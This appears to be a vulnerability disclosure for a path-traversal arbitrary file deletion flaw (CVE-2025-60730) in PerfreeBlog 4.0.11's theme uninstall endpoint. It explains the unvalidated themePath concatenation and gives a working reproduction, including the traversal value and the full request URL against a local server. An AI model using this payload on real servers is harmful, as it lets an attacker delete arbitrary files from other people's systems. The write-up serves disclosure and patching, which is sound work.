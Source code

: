 # Arbitrary File Deletion Vulnerability in PerfreeBlog System(CVE-2025-60730)

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file deletion vulnerability, which allows deleting any files on the server.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
Code for uninstalling theme files
![](./img/2.png)
When entering the `unInstallTheme` function, it directly concatenates the `themePath` without proper validation. It only checks if the directory or file exists, allowing directory traversal using `../` to delete files.
![](./img/3.png)


## Vulnerability Reproduction
First, log in to the background and navigate to Theme Management.
![](./img/1.png)

Click uninstall and capture the packet.
![](./img/4.png)

Create a 1.txt file in the root directory.
![](./img/5.png)

Modify `themePath` to achieve arbitrary file deletion.

Set `themePath` as:
```
themePath=indigo/../../../../../../../1.txt
```

File deletion request:
```
http://127.0.0.1:8086/api/auth/theme/unInstallTheme?themePath=indigo/../../../../../../../1.txt
```


![](./img/6.png)

Deletion successful.
![](./img/7.png)

Any file on the server can be deleted.
